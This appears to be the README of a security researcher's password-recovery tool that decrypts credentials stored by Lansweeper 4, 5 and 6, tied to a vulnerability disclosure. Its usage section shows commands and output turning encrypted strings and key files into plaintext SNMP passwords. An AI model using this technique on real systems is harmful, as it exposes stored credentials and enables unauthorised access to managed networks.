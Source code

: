 # LansweeperPasswordRecovery
Lansweeper 4, 5 & 6 Password Recovery Tool

For more information see our blog post: http://blog.gosecure.ca/2016/04/21/your-credentials-at-risk-with-lansweeper-5/

## Installation

- Open the C# project in Visual Studio 2015.
- Compile and enjoy.

## Usage

```
> LPR4and5.exe MVRtXmhzQXNpUzeu6JplTkcEqKyZ6K0vOdp/dakDvBT4YFC0vm52fr8YwiRnNZNxY7p2sk6IvM4mh6VCetFIpErgc2pzjvGxCg==
[*] Decrypting Lansweeper Password: MVRtXmhzQXNpUzeu6JplTkcEqKyZ6K0vOdp/dakDvBT4YFC0vm52fr8YwiRnNZNxY7p2sk6IvM4mh6VCetFIpErgc2pzjvGxCg==
[*] Note that this operation will NOT take a while...

[-] Recovered: private

...

> LPR6.exe Test_Encryption_File.txt Test_Ciphers_File.txt
[*] Processing files Test_Encryption_File.txt, Test_Ciphers_File.txt.
[*] Loading key file Test_Encryption_File.txt.
[*] Processing 1024 bytes for the key file.
[*] Loading cipher file test.txt
[*] Loading cipher line SNMP-Private:vX8OKLeWzlHtE/FMcCN0HqANgt6Y1083R1kz4sGeISU=
[*] Loading cipher line SNMP-Public:JKBl770rqkNnF7G7Y5uGKmyqBMT9r9sZo5VYIAg5d6I=
[-] Recovered password for user SNMP-Private as private
[-] Recovered password for user SNMP-Public as public
```
